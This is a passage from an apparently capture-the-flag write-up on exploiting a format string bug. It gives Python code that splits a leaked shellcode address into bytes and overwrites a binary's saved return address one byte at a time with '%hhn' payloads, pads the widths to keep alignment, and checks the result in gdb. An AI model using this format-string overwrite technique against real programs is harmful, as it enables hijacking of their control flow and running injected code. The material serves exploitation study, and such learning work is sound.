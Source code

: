 We can use the regular expressions library to split the leaked address of our shellcode by each bytes.

```python=
import re
writes = re.findall(".{2}",hex(leak))[1::]
print(writes)
```
The output breaks up the address into each byte, which we will use as our write.
![](https://i.imgur.com/YSii108.png)

The code below loops through all the bytes in the leaked shellcode address in reverse order and writes that byte to the address of the saved_rip. Unfortunately, running this code will probably crash the binary because of how we are converting a hex byte into decimal. The length of the number in decimal can fluctuate. For example 0x64 in decimal is 100 so the length would be 3, but 0x63 is 99 so the length would be 2. This will mess up the alignment because before we were aligned when the number had a length of 3.

```python=
writes = re.findall(".{2}",hex(leak))[1::]
index = 0
for write in writes[::-1]:
    overwrite_payload = "%"+str(int(write,16))+"x"
    overwrite_payload += "%8$hhnzzzzz"
    overwrite_payload += p64(saved_rip+index)
    io.sendlineafter("> ",overwrite_payload)
    index+=1
```

We can pad our number with 0s in front because 099 == 99. That way we can ensure we are always aligned.

```python=
writes = re.findall(".{2}",hex(leak))[1::]
index = 0
for write in writes[::-1]:
    overwrite_payload = "%"+str(int(write,16)).rjust(3,"0")+"x"
    overwrite_payload += "%8$hhnzzzzz"
    overwrite_payload += p64(saved_rip+index)
    io.sendlineafter("> ",overwrite_payload)
    index+=1
```
Running in script with gdb we can confirm that our write was successful.

![](https://i.imgur.com/wudr3ms.png)

![](https://i.imgur.com/XgZGSyK.png)

We can see that the saved rip now points to the address of our input. But if you look closely, the address of our input isn't exactly the beginning of our shellcode.

Lets examine it further.

![](https://i.imgur.com/yz2M7ku.png)
